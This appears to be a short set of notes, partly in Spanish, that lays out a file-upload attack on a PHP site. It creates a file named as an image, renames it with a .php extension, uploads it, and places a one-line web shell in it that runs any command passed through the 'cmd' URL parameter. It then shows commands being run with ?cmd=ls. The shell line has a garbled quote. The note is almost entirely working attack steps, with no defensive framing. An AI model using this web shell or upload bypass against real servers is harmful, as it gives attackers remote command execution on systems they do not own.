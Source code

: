 touch hola.png
cat hola.png

mv hola.png hola.png.php

entrar a uploads.php
<?php if (isset($_GET['cmd])){system($_GET['cmd']);} ?>

hola.png.php?cmd=ls


link/uploads/hola.png.php?cmd=ls